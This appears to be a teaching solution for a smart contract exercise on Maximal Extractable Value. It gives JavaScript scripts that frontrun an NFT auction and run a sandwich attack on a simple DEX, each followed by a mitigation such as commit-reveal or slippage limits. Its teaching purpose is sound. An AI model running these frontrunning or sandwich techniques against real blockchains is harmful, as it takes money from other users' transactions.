 # Smart Contracts Exercise 08: Maximal Extractable Value --- Solution

The solution for Exercise 08: Maximal Extractable Value can be found in this [GitHub repository](https://github.com/radovluk/Smart-Contract-Exercise/tree/main/08-Maximal-Extractable-Value/solution/solution-code).

## Solution to Task 1: NFT Auction Frontrunning

The solution employs the following strategy:

1. Monitor the mempool for the `endAuction()` transaction
2. Extract the gas parameters from the pending transaction
3. Submit our bid with higher gas parameters to ensure it gets mined first
4. Wait for our bid and the `endAuction()` transaction to be mined
5. Claim the NFT

```javascript
// See the mempool
pendingBlock = await network.provider.send("eth_getBlockByNumber", [
  "pending",
  false,
]);

// Use our explorer function to show detailed transaction info
targetTx = await exploreMempoolTransactions(
  pendingBlock.transactions,
  auction,
  "endAuction"
);
const frontrunTx = {
  to: auction.target,
  data: auction.interface.encodeFunctionData("bid"),
  value: ethers.parseEther("1.5") + 1n, // Bid 1.5 ETH + 1 wei
  type: 2, // EIP-1559 transaction
  maxPriorityFeePerGas: targetTx.maxPriorityFeePerGas + 1000000000n, // +1 Gwei
  maxFeePerGas: targetTx.maxFeePerGas + 1000000000n, // +1 Gwei
  gasLimit: 500000, // Ensure enough gas is provided
};

// Send our frontrunning transaction
await player.sendTransaction(frontrunTx);
console.log("Player sent frontrunning transaction");
```

### Possible Mitigation

**Commit-Reveal Schemes**: Users first submit a hash of their bid (commit) and later reveal the actual bid value. This prevents frontrunning since the actual bid values aren't visible in the mempool.

```solidity
function commitBid(bytes32 bidHash) external {
    commitments[msg.sender] = bidHash;
}

function revealBid(uint value, bytes32 secret) external payable {
    bytes32 commitment = keccak256(abi.encodePacked(value, secret));
    require(commitments[msg.sender] == commitment, "Invalid commitment");
    // Process the actual bid here
}
```

## Solution to Task 2: Sandwich Attack on a DEX

The vulnerability stems from how Automated Market Makers (AMMs) like SimpleDEX determine prices using the constant product formula (x · y = k). When a large swap occurs, it significantly moves the price, creating profitable opportunities for attackers who can manipulate transaction ordering. The SimpleDEX contract implements the standard AMM functionality:

```solidity
function ethToUsdc() public payable returns (uint usdcBought) {
    // Ensure the pool has liquidity before attempting a swap
    require(usdcReserve > 0 && ethReserve > 0, ZeroReserves());

    uint ethSold = msg.value;
    uint inputWithFee = ethSold * 997;

    // Calculate USDC output using constant product formula with fee: 
    // (x + dx * 0.997) * (y - dy) = x * y
    // where: x = ethReserve, y = usdcReserve, dx = ethSold, dy = usdcBought
    usdcBought = (inputWithFee * usdcReserve) / ((ethReserve * 1000) + inputWithFee);

    // Ensure the swap produces a meaningful amount of output tokens
    require(usdcBought > 0, InsufficientUsdcPurchase());

    // Transfer the USDC tokens to the user
    usdcToken.transfer(msg.sender, usdcBought);

    usdcReserve -= usdcBought;
    ethReserve += ethSold;

    // Emit event for off-chain tracking and transparency
    emit EthPurchase(msg.sender, usdcBought, ethSold);

    return usdcBought;
}
```

The sandwich attack consists of three steps:

1. **Frontrun**: Buy tokens (swap ETH for USDC) before the victim's transaction, increasing the price
2. **Victim transaction**: Let the victim's swap execute at the now-worse price
3. **Backrun**: Sell the tokens (swap USDC back to ETH) after the victim's transaction, when the price is even higher

```javascript
// See the mempool
const pendingBlock = await network.provider.send("eth_getBlockByNumber", [
  "pending",
  false,
]);

// Use our explorer function to show detailed transaction info
const targetTx = await exploreMempoolTransactions(
  pendingBlock.transactions,
  simpleDEX,
  "ethToUsdc"
);

// Calculate ETH to use (all player's ETH minus some for gas)
const gasBuffer = ethers.parseEther("0.01"); // Keep 0.01 ETH for gas costs
const frontrunAmount = PLAYER_INITIAL_ETH - gasBuffer;
console.log(
  `\nExecuting frontrun: swapping ${ethers.formatEther(
    frontrunAmount
  )} ETH for USDC...`
);

const frontrunTx = await simpleDEX.connect(player).ethToUsdc({
  value: frontrunAmount,
  maxPriorityFeePerGas: targetTx.maxPriorityFeePerGas + BigInt(1000000000), // +1 Gwei
  maxFeePerGas: targetTx.maxFeePerGas + BigInt(1000000000), // +1 Gwei
});

mine(1);

// Backrun the transaction
const backrunAmount = await usdcToken.balanceOf(player.address);
await usdcToken.connect(player).approve(simpleDEX.target, backrunAmount);
await simpleDEX.connect(player).usdcToEth(backrunAmount);
```

### Possible Mitigation

DEXs should support slippage tolerance to protect against significant price movements. If the price moves beyond the tolerance, the transaction reverts.

```solidity
function ethToUsdcWithSlippage(uint minUsdcOut) external payable {
    uint usdcBought = calculateOutput(msg.value);
    require(usdcBought >= minUsdcOut, "Slippage exceeded");
    // Execute the swap
}
```